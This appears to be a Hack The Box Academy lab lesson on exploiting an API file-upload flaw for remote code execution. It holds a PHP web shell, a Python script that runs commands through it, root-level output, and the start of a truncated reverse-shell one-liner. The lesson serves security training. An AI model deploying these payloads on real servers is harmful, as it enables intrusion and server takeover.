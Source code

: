 
Arbitrary file uploads are among the most critical vulnerabilities. These flaws enable attackers to upload malicious files, execute arbitrary commands on the back-end server, and even take control over the entire server. Arbitrary file upload vulnerabilities affect web applications and APIs alike.

---

## PHP File Upload via API to RCE

Proceed to the end of this section and click on `Click here to spawn the target system!` or the `Reset Target` icon. Use the provided Pwnbox or a local VM with the supplied VPN key to reach the target application and follow along.

Suppose we are assessing an application residing in `http://<TARGET IP>:3001`.

When we browse the application, an anonymous file uploading functionality sticks out. ![image](https://academy.hackthebox.com/storage/modules/160/2.png)

Let us create the below file (save it as `backdoor.php`) and try to upload it via the available functionality.

Code: php

```php
<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>
```

The above allows us to append the parameter _cmd_ to our request (to backdoor.php), which will be executed using _system()_. This is if we can determine _backdoor.php_'s location, if _backdoor.php_ will be rendered successfully and if no PHP function restrictions exist.

![image](https://academy.hackthebox.com/storage/modules/160/4.png)

- _backdoor.php_ was successfully uploaded via a POST request to `/api/upload/`. An API seems to be handling the file uploading functionality of the application.
- The content type has been automatically set to `application/x-php`, which means there is no protection in place. The content type would probably be set to `application/octet-stream` or `text/plain` if there was one.
- Uploading a file with a _.php_ extension is also allowed. If there was a limitation on the extensions, we could try extensions such as `.jpg.php`, `.PHP`, etc.
- Using something like [file_get_contents()](https://www.php.net/manual/en/function.file-get-contents.php) to identify php code being uploaded seems not in place either.
- We also receive the location where our file is stored, `http://<TARGET IP>:3001/uploads/backdoor.php`.

We can use the below Python script (save it as `web_shell.py`) to obtain a shell, leveraging the uploaded `backdoor.php` file.

Code: python

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

Use the script as follows.

  Arbitrary File Upload

```shell-session
Pangulin@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)
```

To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above. Ensure that an active listener (such as Netcat) is in place before executing the below.

  Arbitrary File Upload

```shell-session
Pangulin@htb[/htb]$ python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM
```